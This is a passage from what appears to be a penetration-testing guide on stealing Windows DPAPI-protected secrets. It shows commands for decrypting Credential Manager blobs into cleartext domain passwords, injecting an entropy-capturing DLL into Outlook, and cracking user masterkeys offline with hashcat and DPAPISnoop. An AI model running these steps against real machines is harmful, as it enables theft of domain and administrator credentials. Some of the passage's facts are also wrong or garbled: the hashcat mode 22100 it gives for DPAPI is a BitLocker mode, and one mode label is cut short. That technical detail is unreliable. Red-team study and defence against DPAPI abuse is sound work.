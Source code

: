 - Use the decrypted masterkey to decrypt the credential blob:

```bash
python3 dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0x<MASTERKEY_HEX>
# Expect output like: Type=CRED_TYPE_DOMAIN_PASSWORD; Target=Domain:target=DOMAIN
# Username=<user> ; Password=<cleartext>
```

This workflow often recovers domain credentials saved by apps using the Windows Credential Manager, including administrative accounts (e.g., `*_adm`).

---

### Handling Optional Entropy ("Third-party entropy")

Some applications pass an additional **entropy** value to `CryptProtectData`. Without this value the blob cannot be decrypted, even if the correct masterkey is known. Obtaining the entropy is therefore essential when targeting credentials protected in this way (e.g. Microsoft Outlook, some VPN clients).

[**EntropyCapture**](https://github.com/SpecterOps/EntropyCapture) (2022) is a user-mode DLL that hooks the DPAPI functions inside the target process and transparently records any optional entropy that is supplied. Running EntropyCapture in **DLL-injection** mode against processes like `outlook.exe` or `vpnclient.exe` will output a file mapping each entropy buffer to the calling process and blob. The captured entropy can later be supplied to **SharpDPAPI** (`/entropy:`) or **Mimikatz** (`/entropy:<file>`) in order to decrypt the data. 

```powershell
# Inject EntropyCapture into the current user's Outlook
InjectDLL.exe -pid (Get-Process outlook).Id -dll EntropyCapture.dll

# Later decrypt a credential blob that required entropy
SharpDPAPI.exe blob /target:secret.cred /entropy:entropy.bin /ntlm:<hash>
```

### Cracking masterkeys offline (Hashcat & DPAPISnoop)

Microsoft introduced a **context 3** masterkey format starting with Windows 10 v1607 (2016). `hashcat` v6.2.6 (December 2023) added hash-modes **22100** (DPAPI masterkey v1 context ), **22101** (context 1) and **22102** (context 3) allowing GPU-accelerated cracking of user passwords directly from the masterkey file. Attackers can therefore perform word-list or brute-force attacks without interacting with the target system. 

`DPAPISnoop` (2024) automates the process:

```bash
# Parse a whole Protect folder, generate hashcat format and crack
DPAPISnoop.exe masterkey-parse C:\Users\bob\AppData\Roaming\Microsoft\Protect\<sid> --mode hashcat --outfile bob.hc
hashcat -m 22102 bob.hc wordlist.txt -O -w4
```

The tool can also parse Credential and Vault blobs, decrypt them with cracked keys and export cleartext passwords.

### Access other machine data
